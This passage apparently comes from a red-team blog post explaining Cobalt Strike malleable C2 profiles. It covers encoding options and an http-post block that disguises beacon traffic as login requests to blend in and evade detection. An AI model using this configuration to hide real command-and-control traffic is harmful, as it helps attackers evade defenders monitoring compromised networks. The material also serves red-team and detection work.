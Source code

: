There are a few options available when it comes to data encoding and transformation. For example, you may choose to netbios encode the data to transmit, prepend some information, and then base64 encode the whole package.

- base64 - Base64 encode data that is encapsulated in various sections, in the exable above the cookie value `cf_` contains encoded metadata to be sent back to the CS server.
- base64url - URL-safe Base64 Encode, this is typically used when sending data back in a URL parameter and the data needs to be URL safe so as to not break the communcation stream.
- mask - XOR mask w/ random key, this encodes and encrypts the data within a XOR stream with a random key, typically used in combination with other encoding to obfuscate the data stream.
- netbios - NetBIOS Encode 'a'  it encodes as netbios data in lower case.
- netbiosu - NetBIOS Encode 'A', another form of netbios encoding.

#### POST Section

```
http-post {
    set uri "/web/auth.php /admin/login.php";

    client {
        header "Accept" "*/*";
        header "Host" "zsec.uk";
        header "Connection" "Close";

        id {
            netbios;
            base64url;
            parameter "key";
        }

        output {
            print;
        }
    }

    server {
        header "Pragma" "no-cache";
        header "Connection" "close";

        output {
            print;
        }
    }
}
```

Again like the GET section above, the POST section states how information should be sent in a POST request, it has the added benefit that specifics such as body content and other parameters can be set to enable you to blend in.

### Post Exploitation

Customising the GET and POST requests is just the beginning, the next few sections of the profile is where the magic of post exploitation customisation lives including how the beacon looks in memory, how migration and beacon object files affect the indicators of compromise and much much more.
